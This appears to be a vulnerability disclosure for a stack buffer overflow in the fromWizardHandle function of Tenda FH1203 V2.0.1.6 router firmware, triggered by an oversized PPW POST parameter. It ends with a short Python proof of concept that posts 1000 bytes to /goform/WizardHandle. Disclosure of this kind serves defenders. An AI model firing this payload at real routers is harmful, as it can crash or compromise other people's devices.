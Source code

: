 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2495.html

## Affected version

FH1203 V2.0.1.6

## Vulnerability details

The Tenda FH1203 V2.0.1.6 firmware has a stack overflow vulnerability located in the `fromWizardHandle` function. This function accepts the `WANT`and `WANS` parameter from a POST request. Within `case 2`, this function accepts the `PPW` parameter from a POST request, which is assigned to `decodePwd(pppoepwd, decode_pwd);`. However, since the user has control over the input of `PPW`, the function `decodePwd()` leads to a buffer overflow. The user-supplied `PPW` can exceed the capacity of the `decode_pwd` array, thus triggering this security vulnerability.

![image-20240409144436622](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409144436622.png)

![image-20240409144543183](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409144543183.png)

![image-20240409144601905](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409144601905.png)

![image-20240409144618132](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409144618132.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/WizardHandle"
payload = b"a"*1000

data = {"WANS":"0","WANT":"2","PPW": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240409102339559](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409102339559.png)
